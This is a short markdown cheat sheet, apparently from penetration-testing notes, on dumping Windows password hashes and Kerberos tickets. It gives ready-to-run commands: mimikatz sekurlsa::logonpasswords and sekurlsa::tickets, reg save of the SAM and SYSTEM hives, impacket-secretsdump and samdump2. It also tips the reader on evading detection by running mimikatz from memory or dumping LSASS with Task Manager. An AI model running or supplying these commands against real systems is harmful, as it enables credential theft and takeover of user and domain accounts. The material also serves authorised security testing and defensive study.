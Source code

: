 # Dump Password Hashes

Since implementation of Kerberos authentication, password hashes must be stored somewhere in memory (in order to renew TGT requests). In modern Windows versions hashes are stored in the LSASS memory space.

## Mimikatz

We can use mimikatz (from an administrative console) to gain access to the hashes stored on the target.

**Note:** In order to avoid mimikatz as standalone application, we can try to execute it directly from memory or built-in tools like Task Manager to dump the entire LSASS process memory and extract the data from another machine.

### Users Logged On Hashes

In order to dump hashes for all users logged on to the current workstation or server (including RDP connections), we execute:

```
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

### Users Logged On TGT & TGS Tickets

We can use mimikatz to exract TGT & TGS Kerberos tickets to exploit it's authentication mechanism.

```
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets
```

_____

## Obtaining Windows SAM & SYSTEM files (local)

> If we have access to SAM and SYSTEM files we can use impacket-secreptsdump to extract the user hashes:

Files are located at: C:\Windows\System32\config\, obtain them with:

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Now execute use one of the following techniques in order to extract the hashes:

```bash
impacket-secretsdump -sam $SAMFILE -system $SYSTEMFILE local
```

```bash
samdump2 system sam
```
_____

## Obtaining AD hashes (domain)

In a domain environment, hashes for all account in Active Directory are stored on the Domain Controller in a file called **"NTDS.dit"**.

More info about how to extract those hashes: [UltimateWindowsSecurity.com](https://ultimatewindowssecurity.com/blog/defualt.aspx?d=10/2017)
